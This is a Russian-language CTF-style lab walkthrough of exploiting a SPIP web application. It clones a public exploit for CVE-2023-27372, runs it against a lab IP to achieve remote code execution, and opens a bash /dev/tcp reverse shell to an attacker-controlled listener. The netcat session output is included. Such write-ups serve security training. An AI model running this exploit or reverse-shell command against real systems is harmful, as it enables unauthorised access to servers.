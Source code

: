 ![[Pasted image 20240705003604.png]]

## Получение доступа к системе 

Следующий шаг — поиск эксплойта для этой конкретной версии приложения, и мы нашли страницу GitHub с эксплойтом.

![[Pasted image 20240705003643.png]]

Я скопировал проект на свою локальную машину с помощью команды ниже

```bash
git clone https://github.com/Chocapikk/CVE-2023-27372.git  
Cloning into 'CVE-2023-27372'...  
remote: Enumerating objects: 25, done.  
remote: Counting objects: 100% (14/14), done.  
remote: Compressing objects: 100% (12/12), done.  
remote: Total 25 (delta 4), reused 7 (delta 2), pack-reused 11  
Receiving objects: 100% (25/25), 14.20 KiB | 156.00 KiB/s, done.  
Resolving deltas: 100% (6/6), done.
```

Далее я установил все необходимые библиотеки с помощью следующей команды

```bash
pip install -r requirements.txt
```

Для запуска инструмента я использовал следующую команду

```python
python CVE-2023-27372.py -u http://10.10.163.99/spip/ -v -o report.txt
```

На скриншоте ниже мы видим удаленное выполнение кода на сервере.

![[Pasted image 20240705004305.png]]

Далее следует получить обратную оболочку на коробке, и команда, которую я использовал, была

```bash
bash -c "bash -i >& /dev/tcp/10.8.84.177/9001 0>&1"
```

После настройки прослушивателя netcat на порту 9001 мы получаем обратный шелл

![[Pasted image 20240705004449.png]]

```bash
nc -nvlp 9001  
listening on [any] 9001 ...  
connect to [10.8.84.177] from (UNKNOWN) [10.10.163.99] 58864  
bash: cannot set terminal process group (1): Inappropriate ioctl for device  
bash: no job control in this shell  
www-data@41c976e507f8:/home/think/spip/spip$
```
